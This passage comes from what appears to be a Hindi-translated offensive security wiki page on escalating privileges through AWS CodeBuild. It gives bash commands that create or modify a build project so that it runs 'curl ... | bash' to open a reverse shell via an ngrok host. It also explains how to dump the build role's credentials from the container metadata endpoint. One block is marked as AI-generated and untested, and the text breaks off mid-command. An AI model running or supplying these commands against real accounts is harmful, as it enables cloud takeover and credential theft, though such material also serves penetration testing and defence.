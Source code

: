 ```bash
aws codebuild delete-project --name codebuild-demo-project
```
{% endtab %}

{% tab title="उदाहरण2" %}
{% code overflow="wrap" %}
```bash
# Generated by AI, not tested
# Create a buildspec.yml file with reverse shell command
echo 'version: 0.2
phases:
build:
commands:
- curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash' > buildspec.yml

# Upload the buildspec to the bucket and give access to everyone
aws s3 cp buildspec.yml s3:<S3_BUCKET_NAME>/buildspec.yml

# Create a new CodeBuild project with the buildspec.yml file
aws codebuild create-project --name reverse-shell-project --source type=S3,location=<S3_BUCKET_NAME>/buildspec.yml --artifacts type=NO_ARTIFACTS --environment computeType=BUILD_GENERAL1_SMALL,image=aws/codebuild/standard:5.0,type=LINUX_CONTAINER --service-role <YOUR_HIGH_PRIVILEGE_ROLE_ARN> --timeout-in-minutes 60

# Start a build with the new project
aws codebuild start-build --project-name reverse-shell-project

```
{% endcode %}
{% endtab %}
{% endtabs %}

**संभावित प्रभाव:** किसी भी AWS Codebuild भूमिका में सीधा वृद्धि।

{% hint style="warning" %}
**Codebuild container** में फ़ाइल `/codebuild/output/tmp/env.sh` सभी env vars को एकत्रित करती है जो **मेटाडेटा क्रेडेंशियल** तक पहुंचने के लिए आवश्यक हैं।

इस फ़ाइल में **env variable `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`** होता है जिसमें **क्रेडेंशियल तक पहुंचने के लिए URL पथ** होता है। यह कुछ इस प्रकार होगा `/v2/credentials/2817702c-efcf-4485-9730-8e54303ec420`

इसे URL **`http://169.254.170.2/`** में जोड़ें और आप भूमिका क्रेडेंशियल डंप कर सकेंगे।

इसके अतिरिक्त, यह भी **env variable `ECS_CONTAINER_METADATA_URI`** को शामिल करता है जिसमें **कंटेनर के बारे में मेटाडेटा जानकारी प्राप्त करने के लिए पूरा URL** होता है।
{% endhint %}

### `iam:PassRole`, `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

पिछले खंड की तरह, यदि एक निर्माण परियोजना बनाने की बजाय आप इसे संशोधित कर सकते हैं, तो आप आईएएम भूमिका को निर्दिष्ट कर सकते हैं और टोकन चुरा सकते हैं।
```bash
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

# You need to indicate the name of the project you want to modify
JSON="{
\"name\": \"<codebuild-demo-project>\",
\"source\": {
```